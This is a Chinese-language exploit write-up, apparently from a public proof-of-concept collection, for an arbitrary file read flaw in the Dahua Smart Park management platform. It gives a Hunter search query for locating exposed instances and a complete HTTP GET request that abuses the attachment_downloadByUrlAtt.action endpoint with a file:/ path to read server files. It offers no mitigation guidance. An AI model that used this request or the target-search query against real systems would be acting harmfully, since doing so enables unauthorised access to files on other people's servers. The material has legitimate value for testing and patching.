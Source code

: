 # 大华智慧园区综合管理平台attachment_downloadByUrlAtt.action 任意文件读取

# 一、漏洞简介
大华智慧园区综合管理平台是一个集智能化、信息化、网络化、安全化为一体的智慧园区管理平台，旨在为园区提供一站式解决方案，包括安防、能源管理、环境监测、人员管理、停车管理等多个方面。大华智慧园区综合管理平台attachment_downloadByUrlAtt.action 存在任意文件读取漏洞

# 二、影响版本
+ 大华智慧园区综合管理平台

# 三、资产测绘
+ hunter:`app.name="Dahua 大华 智慧园区管理平台"`  
![1691828229241-1a7a5e8c-d5e6-4852-b428-047c6c955113.png](./img/OVodldMk_3aAoGNG/1691828229241-1a7a5e8c-d5e6-4852-b428-047c6c955113-503279.png)
+ 登录页面：

![1691828319702-85171e4b-cb4b-4826-a654-3c8859b17138.png](./img/OVodldMk_3aAoGNG/1691828319702-85171e4b-cb4b-4826-a654-3c8859b17138-932812.png)

# 四、漏洞复现
```plain
GET /portal/itc/attachment_downloadByUrlAtt.action?filePath=file:/ HTTP/1.1
Host: xx.xx.xx.xx
Cookie: JSESSIONID=E6205C47507484A3593288B704F31990
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

![1699360291610-53699093-c625-42fd-a637-afc57fe2571e.png](./img/OVodldMk_3aAoGNG/1699360291610-53699093-c625-42fd-a637-afc57fe2571e-251069.png)



> 更新: 2024-02-29 23:57:18  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/lowupyok2gqtndzo>